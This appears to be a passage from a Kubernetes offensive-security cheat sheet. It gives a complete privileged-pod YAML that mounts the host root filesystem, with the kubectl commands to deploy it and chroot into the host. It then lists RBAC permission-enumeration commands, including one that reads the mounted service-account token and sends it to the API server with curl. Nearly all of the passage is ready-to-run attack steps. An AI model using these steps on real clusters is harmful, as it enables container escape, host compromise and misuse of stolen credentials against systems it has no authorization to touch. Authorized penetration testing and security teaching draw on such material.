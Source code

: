 ### Kubernetes-specific Breakouts

```bash
# Mount host filesystem via new pod creation
cat > breakout-pod.yaml << EOF
apiVersion: v1
kind: Pod
metadata:
  name: breakout-pod
  namespace: default
spec:
  hostNetwork: true
  hostPID: true
  hostIPC: true
  containers:
  - name: breakout
    image: alpine:latest
    command: ["/bin/sh", "-c", "sleep 3600"]
    securityContext:
      privileged: true
    volumeMounts:
    - name: host-root
      mountPath: /host
  volumes:
  - name: host-root
    hostPath:
      path: /
      type: Directory
EOF

# Apply malicious pod (if create permissions exist)
kubectl apply -f breakout-pod.yaml
kubectl exec -it breakout-pod -- chroot /host /bin/bash
```

---

## RBAC Exploitation

### Permission Enumeration

```bash
# Service account permissions discovery
kubectl auth can-i --list
kubectl auth can-i --list --as=system:serviceaccount:kube-system:default

# Cluster-level permissions
kubectl auth can-i --list --namespace=kube-system

# API-based permission check
TOKEN=$(cat /var/run/secrets/kubernetes.io/serviceaccount/token)
APISERVER="https://kubernetes.default.svc:443"

curl -sk -H "Authorization: Bearer $TOKEN" \
  $APISERVER/apis/authorization.k8s.io/v1/selfsubjectrulesreviews \
  -X POST -H "Content-Type: application/json" \
  -d '{
    "kind": "SelfSubjectRulesReview",
    "apiVersion": "authorization.k8s.io/v1",
    "spec": {"namespace": "default"}
  }'
```
